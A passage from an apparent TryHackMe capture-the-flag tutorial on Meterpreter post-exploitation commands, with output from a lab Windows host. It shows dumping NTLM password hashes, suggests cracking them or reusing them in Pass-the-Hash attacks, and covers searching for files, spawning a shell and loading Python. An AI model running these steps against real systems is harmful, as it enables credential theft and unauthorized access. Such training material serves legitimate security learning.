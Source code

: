 ```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
meterpreter >
```

While it is not mathematically possible to "crack" these hashes, you may still discover the cleartext password using online NTLM databases or a rainbow table attack. These hashes can also be used in *Pass-the-Hash attacks* to authenticate to other systems that these users can access the same network.

#### Search

The search command is useful to locate files with potentially juicy information. In a CTF context, this can be used to quickly find a flag or proof file, while in actual penetration testing engagements, you may need to search for user-generated files or configuration files that may contain password or account information.

```bash
meterpreter > search -f flag2.txt
Found 1 result...
    c:\Windows\System32\config\flag2.txt (34 bytes)
meterpreter >
```

#### Shell

The shell command will launch a regular command-line shell on the target system. Pressing `CTRL+Z` will help you go back to the Meterpreter shell.

```bash
meterpreter > shell
Process 2124 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```

#### Load

You can also use the load command to leverage additional tools such as Kiwi or even the whole Python language.

```bash
meterpreter > load python
Loading extension python...Success.
meterpreter > python_execute "print 'TryHackMe Rocks!'"
[+] Content written to stdout:
TryHackMe Rocks!

meterpreter >
```
